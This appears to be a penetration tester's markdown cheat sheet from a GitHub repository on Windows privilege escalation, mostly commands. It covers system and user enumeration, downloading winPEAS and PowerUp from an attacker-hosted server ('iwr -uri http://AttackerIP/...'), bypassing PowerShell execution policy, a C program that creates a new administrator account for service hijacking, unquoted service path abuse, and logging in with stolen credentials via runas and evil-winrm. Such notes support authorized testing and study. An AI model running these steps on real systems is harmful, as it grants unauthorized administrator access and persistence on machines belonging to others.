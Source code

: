 # Escalation

CLI escalation: [bottom of the page](https://github.com/ThomasBucaioni/pentools/blob/main/microsoft/escalation.md#cli-escalation)

## Info

### Targets

- Username and hostname
- Group memberships of the current user
- Existing users and groups
- Operating system, version and architecture
- Network information
- Installed applications
- Running processes

### Users

```
whoami
whoami /priv
whoami /groups
net user
get-localuser
```

### Groups

```
net localgroup
Get-LocalGroup
Get-LocalGroupMember somegroup
```

### System

Windows versions: https://en.wikipedia.org/wiki/List_of_Microsoft_Windows_versions#/media/File:Windows_Version_History.svg
```
ver
systeminfo
```

### Network

```
ipconfig
ipconfig /all
route print
netstat -ano
```

### Programs

Invoke-command: https://devblogs.microsoft.com/scripting/use-powershell-to-find-installed-software/
```
Get-ItemProperty HKLM:\Software\Microsoft\Windows\CurrentVersion\Uninstall\* |  Select-Object DisplayName, DisplayVersion, Publisher, InstallDate |
Format-Table -AutoSize
Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
```
Registry keys: https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.management/get-childitem?view=powershell-7.3
```
Get-ChildItem -Path HKLM:\HARDWARE
```

### Processes

source: https://stackoverflow.com/questions/31374644/get-process-location-path-using-powershell
```
Get-Process
Get-Process -name someprocess |  % { $_.Path + " " + $_.Id}
Get-Process | Select-Object Path
Get-Process | Select-Object -ExpandProperty Path
Get-Process | ForEach-Object {$_.Path}
(Get-Process -Name someprocess).path
(Get-Process -Id someid).path
```

## Other searches

### Files

Find:
```
Get-ChildItem -Path C:\ -Include *.extension -File -Recurse -ErrorAction SilentlyContinue
Get-ChildItem -Path C:\*.txt -Recurse -Force
Get-ChildItem -Path C:\xampp -Include *.txt,*.ini -File -Recurse -ErrorAction SilentlyContinue | select-object name
```
Display:
```
type somefile.txt
cat somefile.txt
Get-Content somefile.txt
```


### History
```
Get-History
(Get-PSReadlineOption).HistorySavePath
```

### Automatic tools

#### WinPEAS

Upload on the target:
```
kali$ cd /usr/share/peass/winpeas/
kali$ python3 -m http.server 8088
PS> iwr -uri http://AttackerIP/winPEASx64.exe -Outfile winPEAS.exe
```

#### Other tools

URLs:
- https://github.com/carlospolop/PEASS-ng
- https://github.com/GhostPack/Seatbelt
- https://github.com/r3motecontrol/Ghostpack-CompiledBinaries
- https://github.com/Marshall-Hallenbeck/compiled_binaries
- https://github.com/411Hall/JAWS

Seatbelt usage:
```
seatbelt.exe -group=all
```

## Services

```
Get-CimInstance -ClassName win32_service | Select Name, StartMode, State, PathName | Where-Object {$_.State -like 'Running'}
Get_ACL
icacls
```

### Hijacking

#### Manual

```
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user someuser somepass /add");
  i = system ("net localgroup administrators someuser /add");
  
  return 0;
}

x86_64-w64-mingw32-gcc adduser.c -o adduser.exe
```

#### Auto

```
cd /usr/share/windows-resources/powersploit/Privesc/
python3 -m http.server 80

iwr -uri http://AttackerIP/PowerUp.ps1 -Outfile PowerUp.ps1
powershell -ep bypass
. .\PowerUp.ps1
Get-ModifiableServiceFile
```

### Unquoted service path

```
wmic service get name,pathname |  findstr /i /v "C:\Windows\\" | findstr /i /v """
icacls c:\all\the\paths
Get-UnquotedService
Write-ServiceBinary -name 'vulnerablepathservice' -path "C:\unquoted path\"
```

## Other components

### Scheduled tasks

```
schtasks /query /fo LIST /v
```

### Exploits

- https://github.com/itm4n/PrintSpoofer
- https://jlajara.gitlab.io/Potatoes_Windows_Privesc

---

## Cli escalation

### Runas (cmd)

With a password found in `somefile.txt`, we can use `Runas` if in a GUI (triggers a prompt):
```
PS> runas /user:somehackeduser cmd
```
or in current directory:
```
cmd> powershell.exe -Command "Start-Process cmd \"/k cd /d %cd%\" -Verb RunAs"
```

### Powershell

Other user authentication, password entered manually: https://stackoverflow.com/questions/28989750/running-powershell-as-another-user-and-launching-a-script
```
Start-Process powershell.exe -Credential “domain\username” -NoNewWindow -ArgumentList “Start-Process powershell.exe -Verb runAs”
```
or password provided as a Credential object:
```
$username = 'user'
$password = 'password'

$securePassword = ConvertTo-SecureString $password -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword
Start-Process Notepad.exe -Credential $credential
```

### Evil-WinRM

With `evil-winrm` from Kali:
```
kali$ evil-winrm -i $TargetIP -u hackeduser -p "somehackedpass"
```

